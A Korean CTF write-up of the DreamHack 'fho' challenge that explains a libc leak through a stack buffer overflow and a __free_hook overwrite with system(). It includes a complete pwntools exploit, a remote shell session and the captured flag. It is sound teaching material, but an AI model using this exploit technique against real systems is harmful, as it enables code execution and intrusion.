 # [DreamHack] fho

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Hook Overwrite에서 실습하는 문제입니다.
>
> Release: [fho.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8548585/fho.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160252918-e968dfa5-283f-42bc-a851-6eefb7a62351.png)

## Analysis

```c
int main() {
  char buf[0x30];
  unsigned long long *addr;
  unsigned long long value;

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  puts("[1] Stack buffer overflow");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  puts("[2] Arbitary-Address-Write");
  printf("To write: ");
  scanf("%llu", &addr);
  printf("With: ");
  scanf("%llu", &value);
  printf("[%p] = %llu\n", addr, value);
  *addr = value;

  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);
  free(addr);

  return 0;
}
```

`[1] Stack buffer overflow`에서 발생하는 BOF를 이용하여 `main()`의 return address를 leak하면 libc 주소를 구할 수 있다.

`[2] Arbitary-Address-Write`에서 원하는 주소에 원하는 8바이트 값을 쓸 수 있고, `[3] Arbitrary-Address-Free`에서 원하는 주소를 인자로 `free()`를 호출할 수 있다. free hook을 `system()`의 주소로 덮고, `"/bin/sh"` 문자열의 주소를 인자로 `free()`를 호출하면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if REMOTE:
    r = remote('host1.dreamhack.games', 8949)
    libcstartmain_offset = 0x21b10
    system_offset = 0x4f550
    binsh_offset = 0x1b3e1a
    freehook_offset = 0x3ed8e8
else:
    r = process('./release/fho')
    libcstartmain_offset = 0x21ba0
    system_offset = 0x4f420
    binsh_offset = 0x1b3d88
    freehook_offset = 0x3ed8e8


# leak libc

r.sendafter('Buf: ', 'a' * 0x48)
r.recvuntil('Buf: ' + 'a' * 0x48)
libcstartmain = u64(r.recvn(6).ljust(8, b'\x00')) - 231  # __libc_start_main()
libc = libcstartmain - libcstartmain_offset
system = libc + system_offset  # system()
binsh = libc + binsh_offset  # "/bin/sh"
freehook = libc + freehook_offset  # __free_hook


# overwrite free hook with system()

r.sendlineafter('To write: ', str(freehook))
r.sendlineafter('With: ', str(system))


# call free("/bin/sh")

r.sendlineafter('To free: ', str(binsh))


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 8949: Done
[*] Switching to interactive mode
$ cat flag
DH{584ea800b3d6ff90857aa4300ba42218}
```